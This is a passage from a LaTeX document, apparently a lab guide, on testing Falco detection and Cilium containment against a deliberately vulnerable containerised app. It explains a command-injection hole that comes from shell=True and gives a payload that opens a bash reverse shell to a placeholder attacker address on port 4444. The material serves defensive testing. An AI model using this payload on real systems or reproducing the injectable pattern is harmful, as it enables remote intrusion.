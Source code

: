 \chapter{Detection scenarios and rule design}
\label{ch:ch3}
\section{Scenario design}
The scenarios exercise distinct runtime behaviours: shell I/O redirection, credential
exposure, debugger evasion and execution of network tools. Execute them only against
the supplied vulnerable application in an authorized, isolated environment.
Detection and response are separate acceptance criteria: an alert alone does not
demonstrate quarantine, and a metadata patch alone does not demonstrate network deny.

\section{Command injection and reverse shell}
The application passes the form's \texttt{host} value into a shell command using
\texttt{subprocess.run(..., shell=True)}. A shell separator can therefore introduce
additional commands after the intended ping. This is a deliberate vulnerability,
not a recommended application pattern.

Prepare a controlled listener on TCP port 4444 in the isolated test environment.
The target's NodePort interface accepts the following payload, with the placeholder
replaced by that listener's address:
\begin{lstlisting}[language=bash]
127.0.0.1; bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'
\end{lstlisting}
NodePort 32080 is reachable on every node address, not only from the lab host.
Restrict it with a host firewall before deploying the target, so that the
vulnerable form cannot be reached from any other network.
The relevant Falco rule is named exactly
\texttt{Redirect STDOUT/STDIN to Network Connection in Container}. The handler
matches the JSON rule name, not an abbreviated human-readable log message. Record
the actual event, including source, rule, pod name and namespace. Observe both
the handler result and Cilium enforcement before concluding that containment succeeded.
Application request timeouts or a closed listener are not evidence of quarantine.

